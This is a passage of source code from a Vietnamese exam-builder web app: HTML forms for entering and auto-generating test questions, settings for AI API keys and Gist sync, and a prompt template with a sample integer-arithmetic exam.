    <div class="tab-content" id="tab-upload">
      <input type="file" id="fileInput" accept=".json,.csv,.txt,.docx" />
      <p class="hint">Hỗ trợ định dạng: .json, .csv, .txt, .docx (nội dung Word phải theo đúng cấu trúc trong khu "Prompt mẫu cho AI" bên dưới)</p>
    </div>

    <div class="tab-content" id="tab-form">
      <div class="form-fields">
        <select id="formQuestionType">
          <option value="MCQ">Trắc nghiệm nhiều đáp án</option>
          <option value="FILL_BLANK">Trắc nghiệm điền từ</option>
          <option value="TRUE_FALSE">Đúng / Sai</option>
          <option value="ESSAY">Tự luận</option>
        </select>
        <select id="formDifficulty">
          <option value="NB">Nhận biết</option>
          <option value="TH">Thông hiểu</option>
          <option value="VD">Vận dụng</option>
          <option value="VDC">Vận dụng cao</option>
        </select>
        <textarea id="formContent" rows="3" placeholder="Nội dung đề bài..."></textarea>

        <div id="formOptionsMCQ" class="form-options">
          <div class="form-option-row"><input type="radio" name="formCorrectOption" value="A" checked /><input type="text" class="form-option-text" data-key="A" placeholder="Lựa chọn A" /></div>
          <div class="form-option-row"><input type="radio" name="formCorrectOption" value="B" /><input type="text" class="form-option-text" data-key="B" placeholder="Lựa chọn B" /></div>
          <div class="form-option-row"><input type="radio" name="formCorrectOption" value="C" /><input type="text" class="form-option-text" data-key="C" placeholder="Lựa chọn C (tùy chọn)" /></div>
          <div class="form-option-row"><input type="radio" name="formCorrectOption" value="D" /><input type="text" class="form-option-text" data-key="D" placeholder="Lựa chọn D (tùy chọn)" /></div>
        </div>

        <input type="text" id="formFillBlankAnswer" class="form-hidden" placeholder="Đáp án đúng (điền từ)" />

        <select id="formTrueFalseAnswer" class="form-hidden">
          <option value="Dung">Đúng</option>
          <option value="Sai">Sai</option>
        </select>

        <input type="number" id="formDraftLines" class="form-hidden" placeholder="Số dòng kẻ nháp" min="1" value="5" />

        <textarea id="formExplanation" rows="2" placeholder="Lời giải thích / gợi ý..."></textarea>

        <div class="form-add-row">
          <button id="addFormQuestionBtn" type="button" class="secondary-btn">+ Thêm câu hỏi vào danh sách</button>
          <button id="cancelEditFormBtn" type="button" class="secondary-btn form-hidden">Hủy sửa</button>
        </div>
      </div>

      <ul id="formQuestionList" class="form-question-list"></ul>
    </div>

    <div class="tab-content" id="tab-auto">
      <label class="field-label">Model
        <select id="autoModelSelect">
          <option value="">— Chưa có model, vào Cài đặt để thêm —</option>
        </select>
      </label>
      <label class="field-label">Chủ đề (dùng khi không chọn tài liệu, hoặc bổ sung ngữ cảnh)
        <input type="text" id="autoTopicInput" placeholder="VD: Toán 10 - Hàm số bậc nhất" />
      </label>
      <label class="field-label">Yêu cầu bổ sung cho AI (tùy chọn)
        <textarea id="autoExtraPromptInput" rows="3" placeholder="VD: Ra đề theo phong cách thi THPT Quốc gia, ưu tiên bài toán thực tế, tránh lặp lại dạng bài..."></textarea>
      </label>
      <label class="field-label">Tài liệu tham khảo (tùy chọn)
        <select id="autoDocSelect">
          <option value="">— Không dùng tài liệu —</option>
        </select>
      </label>
      <div id="autoSectionCheckboxes" class="auto-section-checkboxes"></div>

      <p class="hint">Số lượng câu hỏi theo loại × mức độ (để trống hoặc 0 = không sinh loại đó):</p>
      <table class="auto-spec-table" id="autoSpecTable">
        <thead>
          <tr><th></th><th>NB</th><th>TH</th><th>VD</th><th>VDC</th></tr>
        </thead>
        <tbody>
          <tr>
            <th>Trắc nghiệm</th>
            <td><input type="number" min="0" value="0" data-loai="TN" data-muc-do="Nhan_Biet" /></td>
            <td><input type="number" min="0" value="0" data-loai="TN" data-muc-do="Thong_Hieu" /></td>
            <td><input type="number" min="0" value="0" data-loai="TN" data-muc-do="Van_Dung" /></td>
            <td><input type="number" min="0" value="0" data-loai="TN" data-muc-do="Van_Dung_Cao" /></td>
          </tr>
          <tr>
            <th>Đúng/Sai</th>
            <td><input type="number" min="0" value="0" data-loai="DUNG_SAI" data-muc-do="Nhan_Biet" /></td>
            <td><input type="number" min="0" value="0" data-loai="DUNG_SAI" data-muc-do="Thong_Hieu" /></td>
            <td><input type="number" min="0" value="0" data-loai="DUNG_SAI" data-muc-do="Van_Dung" /></td>
            <td><input type="number" min="0" value="0" data-loai="DUNG_SAI" data-muc-do="Van_Dung_Cao" /></td>
          </tr>
          <tr>
            <th>Điền từ</th>
            <td><input type="number" min="0" value="0" data-loai="DIEN_TU" data-muc-do="Nhan_Biet" /></td>
            <td><input type="number" min="0" value="0" data-loai="DIEN_TU" data-muc-do="Thong_Hieu" /></td>
            <td><input type="number" min="0" value="0" data-loai="DIEN_TU" data-muc-do="Van_Dung" /></td>
            <td><input type="number" min="0" value="0" data-loai="DIEN_TU" data-muc-do="Van_Dung_Cao" /></td>
          </tr>
          <tr>
            <th>Tự luận</th>
            <td><input type="number" min="0" value="0" data-loai="TU_LUAN" data-muc-do="Nhan_Biet" /></td>
            <td><input type="number" min="0" value="0" data-loai="TU_LUAN" data-muc-do="Thong_Hieu" /></td>
            <td><input type="number" min="0" value="0" data-loai="TU_LUAN" data-muc-do="Van_Dung" /></td>
            <td><input type="number" min="0" value="0" data-loai="TU_LUAN" data-muc-do="Van_Dung_Cao" /></td>
          </tr>
        </tbody>
      </table>

      <button id="autoGenerateBtn" type="button" class="primary-btn">🚀 Sinh đề tự động</button>
      <p class="hint" id="autoGenerateStatus"></p>

      <details class="prompt-accordion" id="resourceLibraryAccordion">
        <summary>📚 Quản lý thư viện tài liệu</summary>
        <div class="prompt-accordion-body">
          <div class="meta-row">
            <input type="text" id="newDocTitle" placeholder="Tên tài liệu (VD: SGK Toán 10 - Chương 1)" />
            <input type="text" id="newDocSubject" placeholder="Môn học" />
          </div>
          <button id="addDocBtn" type="button" class="secondary-btn">+ Tạo tài liệu</button>
          <div id="docListForSections"></div>
        </div>
      </details>
    </div>

    <button id="generateBtn" type="button" class="primary-btn">Sinh Đề Kiểm Tra</button>
    <p class="error-message" id="errorMessage"></p>

    <div class="multi-code-panel" id="multiCodePanel">
      <button type="button" class="collapse-toggle" id="multiCodeToggle" aria-expanded="false">
        <span>🧩 Trộn &amp; Tạo nhiều mã đề</span>
        <span class="chevron">▾</span>
      </button>
      <div class="collapse-body" id="multiCodeBody">
        <p class="hint">Xáo trộn câu hỏi (và đáp án trắc nghiệm) từ đề vừa sinh ở trên để tạo nhiều mã đề khác nhau, hạn chế trùng lặp giữa các mã.</p>
        <div class="meta-row">
          <label class="field-label">Số mã đề (q)
            <input type="number" id="multiCodeCount" min="2" max="50" value="4" />
          </label>
          <label class="field-label">Số bắt đầu
            <input type="number" id="multiCodeStart" min="0" value="101" />
          </label>
        </div>
        <label class="field-label">Tiền tố mã đề
          <input type="text" id="multiCodePrefix" value="Đề" />
        </label>
        <button id="generateMultiCodeBtn" type="button" class="primary-btn" disabled>Tạo Mã Đề</button>
        <p class="hint" id="multiCodeSummary"></p>
      </div>
    </div>
  </section>

  <section class="preview-panel" id="previewPanel">
    <div id="examPrintBg" class="exam-print-bg"></div>
    <div class="code-tabs no-print" id="codeTabs"></div>
    <div id="examContainer" class="exam-container">
      <p class="empty-hint">Chưa có đề thi nào. Hãy nhập dữ liệu ở bảng bên trái và bấm "Sinh Đề Kiểm Tra".</p>
    </div>
  </section>
</main>

<section class="prompt-reference no-print" id="promptReferenceSection">
  <h2 class="prompt-reference-title">Prompt mẫu cho AI &amp; các loại câu hỏi hỗ trợ</h2>

  <div class="question-type-legend">
    <div class="legend-badge legend-mcq">
      <span class="legend-icon">A/B/C/D</span>
      <div>
        <strong>Trắc nghiệm</strong>
        <span>4 lựa chọn A, B, C, D</span>
      </div>
    </div>
    <div class="legend-badge legend-tf">
      <span class="legend-icon">✓ / ✗</span>
      <div>
        <strong>Đúng / Sai</strong>
        <span>Đúng hoặc Sai</span>
      </div>
    </div>
    <div class="legend-badge legend-fill">
      <span class="legend-icon">___</span>
      <div>
        <strong>Điền từ</strong>
        <span>Điền vào chỗ trống</span>
      </div>
    </div>
    <div class="legend-badge legend-essay">
      <span class="legend-icon">✎</span>
      <div>
        <strong>Tự luận</strong>
        <span>Trả lời / trình bày tự do</span>
      </div>
    </div>
  </div>

  <details class="prompt-accordion" id="promptAccordion">
    <summary>Xem &amp; sao chép prompt để dán vào Gemini / Gemini Pro / ChatGPT / DeepSeek / Claude / Grok</summary>
    <div class="prompt-accordion-body">
      <p class="hint">Mỗi AI có một prompt riêng (cùng định dạng chuẩn, kèm lưu ý riêng cho AI đó) — chọn AI bạn định dùng rồi copy.</p>
      <div class="prompt-platform-tabs" id="promptPlatformTabs"></div>
      <p class="hint" id="promptPlatformHint"></p>
      <div class="prompt-toolbar">
        <p class="hint">Thay <code>[NHẬP MÔN HỌC/CHỦ ĐỀ Ở ĐÂY]</code> bằng chủ đề bạn muốn trước khi dán vào AI.</p>
        <button type="button" id="copyPromptBtn" class="secondary-btn">📋 Copy Prompt</button>
      </div>
      <pre class="prompt-text" id="promptText"></pre>

      <details class="prompt-example-accordion">
        <summary>Xem ví dụ kết quả mẫu (dán thử ngay, không cần gọi AI)</summary>
        <div class="prompt-toolbar">
          <p class="hint" id="promptExampleHint">Có thể copy và dán thẳng vào tab "Dán văn bản" rồi bấm "Sinh Đề Kiểm Tra" để xem thử.</p>
          <button type="button" id="copyExampleBtn" class="secondary-btn">📋 Copy Ví dụ</button>
        </div>
        <pre class="prompt-text" id="promptExampleText"></pre>
      </details>
    </div>
  </details>

  <div class="copy-toast" id="copyToast"></div>
</section>

<div class="modal-overlay no-print" id="shareModal">
  <div class="modal">
    <h3>Chia sẻ đề thi</h3>
    <input type="text" id="shareLinkOutput" readonly />
    <p class="hint" id="shareRevokeHint"></p>
    <div class="modal-actions">
      <button id="revokeShareLinkBtn" type="button" class="secondary-btn form-hidden">Thu hồi link</button>
      <button id="copyShareLinkBtn" type="button" class="primary-btn">Sao chép</button>
      <button id="closeShareModalBtn" type="button" class="secondary-btn">Đóng</button>
    </div>
  </div>
</div>

<div class="modal-overlay no-print" id="settingsModal">
  <div class="modal modal-wide">
    <h3>⚙️ Cài đặt</h3>

    <h4>🎨 Giao diện</h4>
    <div class="appearance-settings">
      <span class="appearance-label">Chủ đề màu</span>
      <div class="theme-grid" id="themeGrid">
        <button type="button" class="theme-card" data-theme="cold">
          <span class="theme-card-preview" data-p="cold"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Xanh lạnh</span>
        </button>
        <button type="button" class="theme-card" data-theme="ocean">
          <span class="theme-card-preview" data-p="ocean"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Biển</span>
        </button>
        <button type="button" class="theme-card" data-theme="meadow">
          <span class="theme-card-preview" data-p="meadow"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Đồng cỏ</span>
        </button>
        <button type="button" class="theme-card" data-theme="blossom">
          <span class="theme-card-preview" data-p="blossom"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Oải hương</span>
        </button>
        <button type="button" class="theme-card" data-theme="sorbet">
          <span class="theme-card-preview" data-p="sorbet"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Kem trái cây</span>
        </button>
        <button type="button" class="theme-card" data-theme="daylight">
          <span class="theme-card-preview" data-p="daylight"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Ban ngày</span>
        </button>
        <button type="button" class="theme-card" data-theme="summer">
          <span class="theme-card-preview" data-p="summer"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Hè</span>
        </button>
        <button type="button" class="theme-card" data-theme="fall">
          <span class="theme-card-preview" data-p="fall"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Thu</span>
        </button>
        <button type="button" class="theme-card" data-theme="winter">
          <span class="theme-card-preview" data-p="winter"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Đông</span>
        </button>
        <button type="button" class="theme-card" data-theme="midnight">
          <span class="theme-card-preview" data-p="midnight"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Xanh đêm 🌙</span>
        </button>
        <button type="button" class="theme-card" data-theme="pine">
          <span class="theme-card-preview" data-p="pine"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Rừng đêm 🌙</span>
        </button>
        <button type="button" class="theme-card" data-theme="grape">
          <span class="theme-card-preview" data-p="grape"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Nho</span>
        </button>
        <button type="button" class="theme-card" data-theme="plum">
          <span class="theme-card-preview" data-p="plum"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Mận</span>
        </button>
        <button type="button" class="theme-card" data-theme="mocha">
          <span class="theme-card-preview" data-p="mocha"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Cà phê</span>
        </button>
        <button type="button" class="theme-card" data-theme="quartz">
          <span class="theme-card-preview" data-p="quartz"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Thạch anh</span>
        </button>
        <button type="button" class="theme-card" data-theme="peach">
          <span class="theme-card-preview" data-p="peach"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Đào</span>
        </button>
        <button type="button" class="theme-card" data-theme="rose">
          <span class="theme-card-preview" data-p="rose"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Hoa hồng</span>
        </button>
        <button type="button" class="theme-card" data-theme="honey">
          <span class="theme-card-preview" data-p="honey"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
          <span class="theme-card-name">Mật ong</span>
        </button>
      </div>

      <div class="appearance-row">
        <span class="appearance-label">Cỡ chữ</span>
        <div class="font-size-group" id="fontSizeGroup">
          <button type="button" data-scale="0.9">Nhỏ</button>
          <button type="button" data-scale="1">Vừa</button>
          <button type="button" data-scale="1.15">Lớn</button>
          <button type="button" data-scale="1.3">Rất lớn</button>
        </div>
      </div>
    </div>

    <h4>🔑 API Key LLM (Cloud)</h4>
    <div id="apiKeyRows" class="settings-provider-rows">
      <div class="settings-provider-row" data-provider="openai">
        <span class="provider-label">OpenAI</span>
        <input type="password" class="provider-key-input" placeholder="sk-..." />
        <span class="provider-status hint"></span>
        <button type="button" class="secondary-btn save-key-btn">Lưu</button>
      </div>
      <div class="settings-provider-row" data-provider="anthropic">
        <span class="provider-label">Anthropic</span>
        <input type="password" class="provider-key-input" placeholder="sk-ant-..." />
        <span class="provider-status hint"></span>
        <button type="button" class="secondary-btn save-key-btn">Lưu</button>
      </div>
      <div class="settings-provider-row" data-provider="gemini">
        <span class="provider-label">Google Gemini</span>
        <input type="password" class="provider-key-input" placeholder="AIza..." />
        <span class="provider-status hint"></span>
        <button type="button" class="secondary-btn save-key-btn">Lưu</button>
      </div>
    </div>

    <p class="hint">Model cloud (OpenAI/Anthropic/Gemini) không cần đăng ký thủ công — cứ lưu API key ở trên là toàn bộ model của hãng đó tự hiện trong dropdown "Model" ở tab "Sinh đề tự động".</p>

    <h4>Model cục bộ (.gguf)</h4>
    <p class="hint">Chỉ nhận file .gguf (llama.cpp). File lớn, cần đủ RAM để nạp model, tốc độ sinh chậm hơn cloud.</p>
    <input type="file" id="localModelFile" accept=".gguf" />
    <input type="text" id="localModelDisplay" placeholder="Tên hiển thị (tùy chọn)" />
    <button id="uploadLocalModelBtn" type="button" class="secondary-btn">Tải lên</button>
    <p class="hint" id="uploadLocalModelStatus"></p>

    <h4>Danh sách model hiện có</h4>
    <ul id="modelManagerList" class="form-question-list"></ul>

    <div class="modal-actions">
      <button id="closeSettingsModalBtn" type="button" class="secondary-btn">Đóng</button>
    </div>
  </div>
</div>

<div class="modal-overlay no-print" id="libraryModal">
  <div class="modal modal-wide">
    <h3>📚 Lịch sử đề đã soạn</h3>
    <p class="hint">
      Mọi đề tự động lưu tại đây (trên máy chủ ứng dụng) ngay sau khi bấm <strong>“Sinh Đề Kiểm Tra”</strong>.
      Bấm <strong>Mở</strong> để soạn tiếp một đề cũ.
    </p>
    <ul id="libraryExamList" class="form-question-list"></ul>
    <p class="hint library-item-empty" id="libraryEmptyHint">
      Chưa có đề nào. Hãy đóng cửa sổ này, nhập dữ liệu và bấm “Sinh Đề Kiểm Tra” — đề sẽ tự xuất hiện ở đây.
    </p>

    <details class="sync-details" id="syncDetails">
      <summary>☁️ Đồng bộ sang thiết bị khác (GitHub Gist)</summary>
      <div class="sync-details-body">
        <p class="hint">
          Dùng chung 1 <strong>Personal Access Token</strong> (chỉ cần quyền <code>gist</code>) và 1
          <strong>Gist ID</strong> cho mọi thiết bị.
        </p>

        <div class="sync-status-rows">
          <div class="sync-status-row">
            <span class="sync-status-key">Token GitHub</span>
            <span class="sync-state" id="tokenStateLabel">Chưa có</span>
          </div>
          <div class="sync-status-row">
            <span class="sync-status-key">Gist ID</span>
            <span class="sync-state" id="gistStateLabel">Chưa có</span>
          </div>
        </div>

        <div class="sync-actions">
          <button id="syncPullBtn" type="button" class="primary-btn">⬇️ Kéo về (Pull)</button>
          <button id="syncPushBtn" type="button" class="secondary-btn">⬆️ Đẩy lên (Push)</button>
        </div>
        <div class="sync-actions">
          <button id="changeTokenBtn" type="button" class="secondary-btn">🔑 Thay đổi Token</button>
          <button id="changeGistBtn" type="button" class="secondary-btn">🆔 Thay đổi Gist ID</button>
        </div>

        <div class="sync-subpanel form-hidden" id="changeTokenPanel">
          <label class="field-label">Dán Token GitHub mới (quyền <code>gist</code>)
            <input type="password" id="ghTokenInput" placeholder="ghp_... / github_pat_..." />
          </label>
          <div class="sync-actions">
            <button id="saveTokenBtn" type="button" class="primary-btn">Lưu Token</button>
            <button id="cancelTokenBtn" type="button" class="secondary-btn">Huỷ</button>
          </div>
        </div>

        <div class="sync-subpanel form-hidden" id="changeGistPanel">
          <p class="hint"><strong>Cách 1</strong> — Tạo Gist mới (thiết bị đầu tiên; cần đã lưu Token):</p>
          <button id="createGistBtn" type="button" class="secondary-btn">🆕 Tạo Gist ID mới</button>
          <p class="hint"><strong>Cách 2</strong> — Dùng Gist ID đã có (copy từ thiết bị khác):</p>
          <label class="field-label">Gist ID
            <input type="text" id="gistIdInput" placeholder="vd: 1a2b3c4d5e..." />
          </label>
          <div class="sync-actions">
            <button id="saveGistIdBtn" type="button" class="primary-btn">Lưu Gist ID</button>
            <button id="cancelGistBtn" type="button" class="secondary-btn">Huỷ</button>
          </div>
        </div>

        <p class="hint" id="syncStatus"></p>
        <p class="hint" id="syncMeta"></p>
      </div>
    </details>

    <div class="modal-actions">
      <button id="closeLibraryModalBtn" type="button" class="secondary-btn">Đóng</button>
    </div>
  </div>
</div>

<script src="/vendor/docx/index.umd.cjs"></script>
<script src="/vendor/mammoth/mammoth.browser.js"></script>
<script src="/vendor/katex/katex.min.js"></script>
<script type="module" src="script.js"></script>
<script type="module" src="templateSystem.js"></script>
</body>
</html>

```

### FILE: frontend/promptTemplate.js

```javascript
// TU DONG SINH tu Gemini_Prompt_Unified.txt bang tools/gen-prompt-module.js -- DUNG SUA TAY.
// Nguon duy nhat cua prompt la file .txt o goc du an; sua o do roi chay: npm run gen:prompt
// Tach thanh module de khu "Prompt mau cho AI" trong UI copy 1-click ma khong goi server.
export const EXAM_PROMPT_TEMPLATE = `Bạn là chuyên gia khảo thí và biên soạn đề kiểm tra. Hãy soạn nội dung đề kiểm tra về chủ đề [NHẬP MÔN HỌC/CHỦ ĐỀ Ở ĐÂY].

Kết quả của bạn sẽ được một PHẦN MỀM ĐỌC TỰ ĐỘNG, không phải con người đọc. Vì vậy phải tuân thủ TUYỆT ĐỐI định dạng bên dưới. Chỉ cần sai một chi tiết là phần mềm sẽ báo lỗi hoặc hiểu sai nội dung.

━━━━━━━━━━━━━━ QUY TẮC XUẤT KẾT QUẢ (bắt buộc) ━━━━━━━━━━━━━━
1. CHỈ xuất ra nội dung đề theo đúng định dạng dưới đây. TUYỆT ĐỐI KHÔNG viết lời chào, lời dẫn ("Dưới đây là đề..."), ghi chú, lời kết. KHÔNG đặt kết quả trong khối mã / code block. KHÔNG dùng ký hiệu markdown (dấu sao, dấu thăng, gạch đầu dòng, bảng...).
2. Đề gồm ĐÚNG 2 phần. Mỗi phần mở đầu bằng một dòng header viết y hệt, chữ IN HOA không dấu, có dấu "=" ở hai đầu, NẰM MỘT MÌNH TRÊN DÒNG và có một dòng trống ngay phía trước:
      =PHAN_1_TRAC_NGHIEM=   → chứa mọi câu loại TN, DUNG_SAI, DIEN_TU
      =PHAN_2_TU_LUAN=       → chỉ chứa câu loại TU_LUAN
3. Mỗi câu hỏi bắt đầu bằng đúng dòng:  [CAU_HOI]  — nằm một mình trên dòng, có một dòng trống ngay phía trước. TUYỆT ĐỐI không nối "[CAU_HOI]" hay dòng header vào cuối dòng "Loi_Giai:" của câu trước.
4. Mỗi câu chỉ được có DUY NHẤT một dòng "Dap_An:" và DUY NHẤT một dòng "Loi_Giai:". Hãy suy nghĩ và tự kiểm tra thật kỹ TRƯỚC khi viết, rồi chỉ ghi ra đáp án CUỐI CÙNG mà bạn chắc chắn đúng. Không được ghi "Dap_An:" hoặc "Loi_Giai:" lần thứ hai để tự sửa lại trong cùng một câu.
5. Mỗi trường viết trên MỘT dòng, đúng dạng "Tên_Trường: giá trị". Tên trường viết y hệt (Loai, Muc_Do, De_Bai, Dap_An, Loi_Giai, So_Dong_Nhap) — không dịch, không đổi, không thêm khoảng trắng trong tên. Nội dung "De_Bai:" viết gọn trên một dòng, KHÔNG xuống dòng giữa chừng và KHÔNG bắt đầu bất kỳ dòng nào bằng "A." … "D." hay bằng tên một trường.

━━━━━━━━━━━━━━ TỪ VỰNG BẮT BUỘC ━━━━━━━━━━━━━━
Trường Loai — viết đúng MỘT trong 4 giá trị:  TN  |  DUNG_SAI  |  DIEN_TU  |  TU_LUAN
Trường Muc_Do — viết đúng MỘT trong 4 giá trị:  Nhan_Biet  |  Thong_Hieu  |  Van_Dung  |  Van_Dung_Cao

━━━━━━━━━━━━━━ ĐỊNH DẠNG CHI TIẾT TỪNG LOẠI CÂU ━━━━━━━━━━━━━━

• TN — trắc nghiệm 4 lựa chọn:
  [CAU_HOI]
  Loai: TN
  Muc_Do: <mức độ>
  De_Bai: <nội dung câu hỏi, một dòng>
  A. <nội dung lựa chọn A>
  B. <nội dung lựa chọn B>
  C. <nội dung lựa chọn C>
  D. <nội dung lựa chọn D>
  Dap_An: <MỘT chữ cái: A hoặc B hoặc C hoặc D — phải trùng đúng một lựa chọn ở trên>
  Loi_Giai: <giải thích vì sao đáp án đó đúng>
  → Bắt buộc đủ 4 lựa chọn, mỗi lựa chọn một dòng riêng, bắt đầu bằng "A. ", "B. ", "C. ", "D. ".

• DUNG_SAI — một nhận định, học sinh xét đúng/sai:
  [CAU_HOI]
  Loai: DUNG_SAI
  Muc_Do: <mức độ>
  De_Bai: <một mệnh đề/nhận định trọn vẹn>
  Dap_An: <đúng một từ:  Dung  hoặc  Sai  — không dấu, viết hoa chữ cái đầu>
  Loi_Giai: <giải thích>

• DIEN_TU — điền vào chỗ trống:
  [CAU_HOI]
  Loai: DIEN_TU
  Muc_Do: <mức độ>
  De_Bai: <câu có chỗ trống, đánh dấu chỗ trống bằng ba dấu gạch dưới:  ___ >
  Dap_An: <từ / cụm từ / số cần điền vào chỗ trống>
  Loi_Giai: <giải thích>

• TU_LUAN — tự luận (CHỈ đặt trong =PHAN_2_TU_LUAN=):
  [CAU_HOI]
  Loai: TU_LUAN
  Muc_Do: <mức độ>
  De_Bai: <đề bài yêu cầu học sinh trình bày lời giải>
  So_Dong_Nhap: <số nguyên dương — số dòng kẻ trống chừa cho học sinh làm bài, ví dụ 5 đến 12>
  Loi_Giai: <hướng dẫn chấm / đáp án / các bước giải chi tiết>

━━━━━━━━━━━━━━ CÁCH VIẾT CÔNG THỨC TOÁN ━━━━━━━━━━━━━━
- BẮT BUỘC bọc trong $...$ và viết bằng LaTeX chuẩn cho MỌI công thức có cấu trúc 2 chiều (bên trên/bên dưới một gạch ngang):
    • Căn mọi loại: $\\sqrt{80}$ , $\\sqrt{b^2 - 4ac}$ , căn bậc n $\\sqrt[3]{x+1}$
    • Phân số mọi loại: $\\dfrac{2}{3}$ , $\\dfrac{-b \\pm \\sqrt{b^2 - 4ac}}{2a}$
    • Lũy thừa có cơ số hoặc số mũ là biểu thức: $x^{n+1}$ , $(a+b)^2$ , $(-2)^{3}$ , $2^{10}$
    • Tích phân / tổng / giới hạn có cận: $\\int_{0}^{1} x^2\\,dx$ , $\\sum_{k=1}^{n} k$ , $\\lim_{x \\to 0} f(x)$
    • Hệ phương trình, ma trận: $\\begin{cases} x + y = 1 \\\\ x - y = 3 \\end{cases}$
- CHỈ được gõ ASCII trần (KHÔNG có $...$) cho ký hiệu thật sự MỘT HÀNG: số mũ chỉ một chữ số như x^2 ; dấu nhân a*b ; so sánh <= >= != ; tương đương <=> ; suy ra => ; đơn vị cm2 cm3 ; số thập phân ; dấu cộng trừ viết +- .
- Không trộn nửa ASCII nửa LaTeX trong cùng một biểu thức. Một biểu thức: hoặc toàn ASCII, hoặc toàn LaTeX trong $...$.
- Nếu một biểu thức có căn hoặc phân số thì CẢ biểu thức đó phải nằm gọn trong MỘT cặp $...$ (kể cả phần số/biến đứng ngoài căn): viết $2\\sqrt{3} + 1$ chứ KHÔNG viết 2$\\sqrt{3}$+1 ; viết $\\dfrac{\\sqrt{80}}{5}$ chứ KHÔNG viết $\\sqrt{80}$/5 .

━━━━━━━━━━━━━━ SỐ LƯỢNG CÂU HỎI ━━━━━━━━━━━━━━
Nếu ở phần bổ sung phía dưới KHÔNG ghi yêu cầu số lượng cụ thể: hãy tạo khoảng 6 câu cho PHAN_1 (đủ cả TN, DUNG_SAI, DIEN_TU) và 2–3 câu TU_LUAN cho PHAN_2, phân bố trải đều 4 mức độ từ Nhan_Biet đến Van_Dung_Cao.
Nếu CÓ ghi yêu cầu số lượng: tuân thủ đúng số lượng và đúng loại × mức độ được yêu cầu.

━━━━━━━━━━━━━━ KHUNG MẪU — giữ nguyên cấu trúc, thay <...> bằng nội dung thật ━━━━━━━━━━━━━━

=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: <nội dung câu trắc nghiệm>
A. <lựa chọn A>
B. <lựa chọn B>
C. <lựa chọn C>
D. <lựa chọn D>
Dap_An: A
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: <một nhận định>
Dap_An: Dung
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: <câu hỏi có ___ ở chỗ trống>
Dap_An: <đáp án cần điền>
Loi_Giai: <giải thích>

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: <đề bài tự luận>
So_Dong_Nhap: 8
Loi_Giai: <hướng dẫn chấm và các bước giải chi tiết>`;

export const EXAM_PROMPT_EXAMPLE = `=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Kết quả của phép tính (-5) + 3 là bao nhiêu?
A. -2
B. 2
C. -8
D. 8
Dap_An: A
Loi_Giai: (-5) + 3 = -(5 - 3) = -2, vì |-5| > |3| nên kết quả mang dấu âm.

[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Giá trị của biểu thức $(-2)^{3} + \\sqrt{16}$ bằng bao nhiêu?
A. -4
B. 4
C. -12
D. 12
Dap_An: A
Loi_Giai: $(-2)^{3} = -8$ và $\\sqrt{16} = 4$, nên -8 + 4 = -4.

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Tích của hai số nguyên âm luôn là một số nguyên dương.
Dap_An: Dung
Loi_Giai: Theo quy tắc dấu: (-) x (-) = (+), nên tích của hai số nguyên âm luôn là số dương.

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Điền số thích hợp vào chỗ trống: |-12| + |-8| = ___
Dap_An: 20
Loi_Giai: |-12| = 12, |-8| = 8, suy ra 12 + 8 = 20.

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Một chiếc tàu ngầm đang ở độ sâu 45m so với mực nước biển. Tàu di chuyển lên 20m rồi tiếp tục lặn xuống 30m. Hỏi tàu ngầm đang ở độ sâu bao nhiêu mét so với mực nước biển? Trình bày lời giải bằng phép tính với số nguyên.
So_Dong_Nhap: 6
Loi_Giai: Độ sâu ban đầu: -45m. Sau khi lên 20m: -45 + 20 = -25m. Sau khi lặn xuống 30m: -25 - 30 = -55m. Vậy tàu ngầm đang ở độ sâu 55m so với mực nước biển.`;

```

### FILE: frontend/script.js

```javascript
import { TextPromptParser } from '/parser/TextPromptParser.js';
import { FileUploadParser } from '/parser/FileUploadParser.js';
import { formatMathSymbols, latexToPlainText } from '/parser/mathFormat.js';
import { generateExamCodes, shuffleAllMCQOptions } from '/parser/examCodeGenerator.js';
import { redactExamForStudent } from '/parser/examRedaction.js';
import { AI_PROMPT_VARIANTS } from './promptVariants.js';

// Ve noi dung toan hoc: MOI cau truc 2 chieu (can, phan so, can bac n, he
// phuong trinh, tich phan...) deu duoc quy ve $...$ / $$...$$ LaTeX roi giao
// het cho KaTeX ve. KHONG con renderer "can/phan so gia bang CSS" - phan
// ngoai $...$ chi con la van xuoi + ky hieu 1 hang Unicode (x², ≤, π, °).
